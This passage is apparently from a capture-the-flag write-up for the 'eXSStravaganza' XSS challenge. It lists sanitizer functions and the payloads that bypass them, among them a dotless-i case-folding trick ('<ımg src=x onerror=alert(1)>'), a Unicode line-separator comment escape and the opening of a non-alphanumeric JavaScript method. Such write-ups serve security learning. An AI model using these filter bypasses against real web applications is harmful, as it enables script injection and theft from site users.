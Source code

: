 ### The solution

We can go to the next line with a line separator (U+2028) or a paragraph separator (U+2029). Then we can open another comment with `-->` to fix the syntax

     alert(1) -->

## eXSStravaganza level 8
### The sanitizer

    function sanitize(input) {
        let sanitized = input;
        do{
            input = sanitized;
            // no opening tags
            sanitized = input.replace(/<[a-zA-Z]/g, '')
        } while (input != sanitized)
        sanitized = sanitized.toUpperCase();
        do{
            input = sanitized;
            // no script
            sanitized = input.replace(/SCRIPT/g, '')
        } while (input != sanitized)
        return sanitized.toLowerCase();
    }

### The solution

`ı` character for the win, since when set to uppercase it becomes the character `I`

    <ımg src=x onerror=alert(1)>

## eXSStravaganza level 9
### The sanitizer

    function sanitize(input) {
        // no tags, no comments, no string escapes and no new lines
        const sanitized = input.replace(/[a-z\\]/gi, '').substring(0,140);
        return "  \x3Cscript\x3E\n  " + sanitized + "\n  \x3C/script\x3E";
    }

### The solution

We can leverage the letters that we get from some predefined strings:

    ''+!!'' // false
    ''+!'' // true
    ''+!!''+!'' // falsetrue
    []['at'] + '' // function at() { [native code] }

Also we can create variables with non-alphanumeric names such as `à`, `ì`, `ò`
